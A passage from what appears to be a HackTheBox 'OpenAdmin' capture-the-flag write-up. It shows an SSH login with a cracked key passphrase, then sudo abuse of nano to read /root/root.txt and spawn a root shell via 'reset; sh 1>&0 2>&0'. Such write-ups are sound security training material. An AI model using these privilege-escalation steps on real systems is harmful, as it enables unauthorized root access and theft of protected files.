 So lets try the key with the password "bloodninjas":

~~~
$ ssh joanna@10.10.10.171 -i joanna_rsa
joanna@10.10.10.171's password: bloodninjas
~~~

After a successful login we find the user-flag in joannas home directory!

![User flag](https://dvardoo.github.io/images/openadmin/user-flag.jpg "User flag")
{: .full}

Now let's se how we can escalate our privileges to get to the root account!

## Root
Let's start by finding out what joanna is allowed to do with elevated privileges:
~~~
$ sudo -l
~~~

Gives us:
~~~
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
~~~

So we can use `nano` as sudo without the password that we don't have, basicly by using the full filepath:
~~~
$ sudo /bin/nano /opt/priv
~~~

We can then use a shortcut in nano to get information from other files by pressing `CTRL + R` and then insert /root/root.txt to insert the flag in the open file: 

![Root flag](https://dvardoo.github.io/images/openadmin/root-flag.jpg "Root flag")
{: .full}

But if we really want to get to the root account instead we can do as proposed[^3] and use the following shortcuts in `nano`: 

~~~
$ sudo /bin/nano /opt/priv
CTRL + R
CTRL + X
reset; sh 1>&0 2>&0
~~~

All this is made possible due to the fact that `nano` does not drop the elevated priveleges and thus can be abused.

![Root shell](https://dvardoo.github.io/images/openadmin/root-id.jpg "Root shell")
{: .full}
![Root shell and root flag](https://dvardoo.github.io/images/openadmin/root-flag2.jpg "Root shell and root flag")
{: .full}

# References
[^1]: https://www.exploit-db.com/exploits/47691
[^2]: https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/ 
[^3]: https://gtfobins.github.io/gtfobins/nano/#sudo 
